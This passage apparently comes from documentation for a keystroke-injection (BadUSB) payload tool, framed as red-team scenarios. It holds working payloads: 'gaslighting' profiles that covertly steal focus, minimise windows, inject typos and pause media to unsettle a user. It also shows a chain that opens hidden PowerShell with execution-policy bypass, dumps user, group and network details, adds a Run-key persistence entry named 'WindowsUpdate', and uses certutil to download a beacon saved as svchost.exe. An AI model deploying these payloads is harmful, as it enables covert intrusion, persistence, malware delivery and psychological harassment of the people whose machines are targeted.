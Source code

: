 **Subtle Psychological Influence:**
```bash
GASLIGHT_PROFILE_START
GASLIGHT_TYPO
GASLIGHT_CAPS_TOGGLE 60000 300000  # Less frequent
GASLIGHT_VOLUME_JITTER 300000 900000  # Very subtle
GASLIGHT_PROFILE_END
```

**Aggressive System Testing:**
```bash
GASLIGHT_PROFILE_START
GASLIGHT_FOCUS_STEAL 15000 60000    # Frequent
GASLIGHT_MINIMIZE 30000 120000      # Often
GASLIGHT_MEDIA_PAUSE 45000 180000   # Regular
GASLIGHT_PROFILE_END
```

## 🎯 Real-World Operational Scenarios

### Scenario 1: Corporate Red Team Assessment

**Objective:** Gain persistent access and assess detection capabilities

```bash
# Phase 1: Initial foothold
SET_XOR_KEY CorpRedTeam2024!
STEALTH_ON

BUTTON_DEF
DELAY 3000
WIN r
STRING powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Start-Process cmd -WindowStyle Hidden"
ENTER
DELAY 2000
STRING whoami /groups > C:\\Windows\\Temp\\privs.txt
ENTER
DELAY 1000
STRING net user %username% > C:\\Windows\\Temp\\userinfo.txt
ENTER
DELAY 1000
STRING ipconfig /all > C:\\Windows\\Temp\\network.txt
ENTER
END_BUTTON

# Phase 2: Persistence establishment  
BUTTON2_DEF
DELAY 2000
LOLBAS_REG add "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\\Windows\\System32\\notepad.exe"
ENTER
DELAY 1000
LOLBAS_CERTUTIL -urlcache -split -f http://internal-server/tools/beacon.exe C:\\Windows\\Temp\\svchost.exe
ENTER
END_BUTTON2

# Phase 3: Gaslighting for awareness testing
GASLIGHT_PROFILE_START
GASLIGHT_TYPO
GASLIGHT_RUN_COMMAND 120000 300000
GASLIGHT_NOTIFICATION 180000 420000
GASLIGHT_PROFILE_END

```